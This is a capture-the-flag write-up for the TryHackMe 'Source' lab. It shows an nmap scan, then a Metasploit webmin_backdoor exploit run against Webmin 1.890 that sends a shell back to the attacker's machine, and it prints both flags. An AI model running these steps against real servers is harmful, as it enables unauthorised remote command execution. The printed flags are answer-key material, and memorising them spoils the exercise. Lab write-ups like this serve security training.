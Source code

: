 # TryHackMe [Source](https://tryhackme.com/room/source)
### References
* DarkSec. (2020). TryHackMe Source Official Walkthrough [YouTube Video]. In YouTube. https://youtu.be/A7PUyzsXE3c
* gdft2112. (2019, August 16). Webmin password_change.cgi Command Injection. AttackerKB. https://attackerkb.com/topics/hxx3zmiCkR/webmin-password-change-cgi-command-injection
## Reconnaissance
* `nmap`:
```bash
$ nmap -sCV -vv <MACHINE_IP>
PORT      STATE SERVICE REASON  VERSION
22/tcp    open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDbZAxRhWUij6g6MP11OkGSk7vYHRNyQcTIdMmjj1kSvDhyuXS9QbM5t2qe3UMblyLaObwKJDN++KWfzl1+beOrq3sXkTA4Wot1RyYo0hPdQT0GWBTs63dll2+c4yv3nDiYAwtSsPLCeynPEmSUGDjkVnP12gxXe/qCsM2+rZ9tzXtSWiXgWvaxMZiHaQpT1KaY0z6ebzBTI8siU0t+6SMK7rNv1CsUNpGeicfbC5ZOE4/Nbc8cxNl7gDtZbyjdh9S7KTvzkSj2zBJ+8VbzsuZk1yy8uyLDgmuBQ6LzbYUNHkTQhJetVq7utFpRqLdpSJTcsz5PAxd1Upe9DqoYURuL
|   256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEYCha8jk+VzcJRRwV41rl8EuJBiy7Cf8xg6tX41bZv0huZdCcCTCq9dLJlzO2V9s+sMp92TpzR5j8NAAuJt0DA=
|   256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOJnY5oycmgw6ND6Mw4y0YQWZiHoKhePo4bylKKCP0E5
10000/tcp open  http    syn-ack MiniServ 1.890 (Webmin httpd)
|_http-favicon: Unknown favicon MD5: C6CB391D8234CA76B9025B09BFB32F43
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## `user.txt`
```bash
$ msfconsole -q
msf6 > use exploit/linux/http/webmin_backdoor
msf6 exploit(linux/http/webmin_backdoor) > set RHOSTS <MACHINE_IP>
RHOSTS => <MACHINE_IP>
msf6 exploit(linux/http/webmin_backdoor) > set LHOST tun0
LHOST => <OPENVPN_IP>
msf6 exploit(linux/http/webmin_backdoor) > set SSL true
SSL => true
msf6 exploit(linux/http/webmin_backdoor) > run
$ find /home -type f -name "user.txt"
/home/dark/user.txt
$ cat /home/dark/user.txt
THM{SUPPLY_CHAIN_COMPROMISE}
```

## `root.txt`
```bash
$ find /root -type f -name "root.txt"
/root/root.txt
$ cat /root/root.txt
THM{UPDATE_YOUR_INSTALL}
```